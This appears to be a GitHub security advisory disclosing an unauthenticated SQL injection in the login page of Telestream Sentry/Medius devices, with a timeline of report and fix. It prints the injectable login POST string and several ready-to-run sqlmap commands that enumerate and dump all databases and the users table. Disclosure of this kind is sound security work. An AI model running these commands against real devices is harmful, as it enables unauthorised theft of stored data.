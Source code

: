 ```yaml
---
title: ' Telestream: SQL injection in Sentry/Medius'
published: '2020-09-16T18:12:57Z'
severity: High
ghsa_id: GHSA-g69r-8jwh-2462
cve_id: CVE-2020-8887
weaknesses: []
products:
- ecosystem: ''
  package_name: Sentry/Medius
  affected_versions: < 10.7.5
  patched_versions: '> 10.7.5'
cvss: null
credits:
- github_user_id: securitygoon
  name: Matt Bell
  avatar: https://avatars.githubusercontent.com/u/69655154?s=40&v=4
---
```


### Summary
A SQL Injection Vulnerability was discovered by Matt Bell of Google Fiber Security in the following platforms:
- Telestream/Tektronix Sentry running 10.6.6 (and likely versions previous to 10.7.5)
- Telestream/Tektronix Medius running 10.6.2 (and likely versions previous to 10.7.5)

This vulnerability allows an unauthenticated attacker to perform SQL injection on the device, causing the device to return information stored in the system databases. This includes databases, tables, channel/feed subscriptions, etc. 

### Severity
This is a high severity vulnerability for users of this platform as the attack can be conducted with no authentication and allows the exposure of database information.  An unauthenticated attacker can enumerate and dump the contents of the databases stored on the system. 

### Proof of Concept
The attack vector is a SQL injection vuln in index.php via POST to "_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+"

### Further Analysis
**This was the initial command I ran to get the databases, schemas, tables, etc, using sqlmap for efficiency:**
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=1 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --current-user

**Then for the sake of efficiency, you can tune the scan to use specific databases and tables you find and start dumping tables...**
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public --count --output-dir=./

sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="noscript=0; PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public -T users --count --output-dir=./

**This command takes MUCH longer to run, but will enumerate all databases and tables and log all findings to a CSV file. I was able to dump the contents of all the tables it found.** 
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="noscript=0; PHPSESSID=5c71d6d59352a4313bf1200f9cbdf97" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public -T system_identification --columns --schema --dump-all --comments --count --output-dir=./

### Timeline
__Date reported__:  October 8th, 2019
__Date fixed__:   December. 18th 2019
__Date disclosed__: September 1, 2020